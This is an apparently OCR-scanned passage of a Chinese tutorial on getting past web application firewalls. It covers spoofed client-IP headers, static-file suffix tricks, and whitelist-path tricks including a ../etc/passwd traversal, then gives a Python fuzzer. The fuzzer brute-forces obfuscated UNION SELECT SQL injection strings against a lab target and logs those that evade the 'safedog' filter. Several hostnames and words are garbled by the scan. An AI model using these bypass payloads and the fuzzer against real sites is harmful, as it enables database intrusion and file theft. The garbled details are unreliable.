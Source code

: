 ```bash
x-remote-addr
x-Real-ip
```
**方式二:静态资源**<br />特定的静态资源后缀请求，常见的静态文件(.js .jpg .swf .css等等)，类似白名单机制,waf为了检测效率，不去检测这样一些静态文件名后缀的请求。
```bash
http://10.s.9.201/sql.php ?id=1
http://10.9.9.201/sql.php/1.j=?id=1
```
备注: aapx/php只识别到前面的.aspx/ .php后面基本不识别

**方式三:url白名单**<br />为了防止误拦，部分waf内置默认的白名单列表，如acmin/managerl system等管理后台。只要url中存在白名单的字符串，就作为白名单不进行检测。常见的uzl构造姿势:
```bash
http://10.s.s.201/=ql.php/admin.php?id=1
http://10.9.9.201/sql.php?a=/manage/&b=../etc/passwd
http://10.9.s.201/../../../manage/../sql.asp?id=2
```
waf通过/manage/"进行比较，只要uri中存在/manage/就作为白名单不进行检测，这样我们可以通过/sql.php?a=/ manage/&b=../etc/passwcl绕过防御规则。

<a name="Y8tZt"></a>
#### fuzz代码实现
```bash
import requests, time

url = 'http://10.1.1.120/Less-2/?id=1'
union = 'union'
select = 'select'
num = '1,2,3'
a = {'%0a', '%23'}
aa = {'x'}
aaa = {'%0a', '%23'}
b = '/*!'
c = '/*'


def bypass():
    for xiaodi in a:
        for xiaodis in aa:
            for xiaodiss in aaa:
                for two in range(44500, 44600):
                    urls = url + xiaodi + xiaodis + xiaodiss + b + str(two) + union + c + xiaodi + xiaodis + xiaodiss + select + xiaodi + xiaodis + xiaodiss + num
                    try:
                        result = requests.get(urls).text
                        len_r = len(result)
                        if (result.find('safedog') == -1):
                            # print('bypass url address:'+ urls+'|'+ str(len_r))
                            print('bypass url address:' + urls + '|' + str(len_r))
                            if len_r == 715:
                                fp = open('url,txt', 'a+')
                                fp.write(urls + '\n')
                                fp.close()
                    except Exception as err:
                        print('connecting error')
                        time.sleep(0.1)


if __name__ == '__main__':
    print('fuzz start')
    bypass()

```
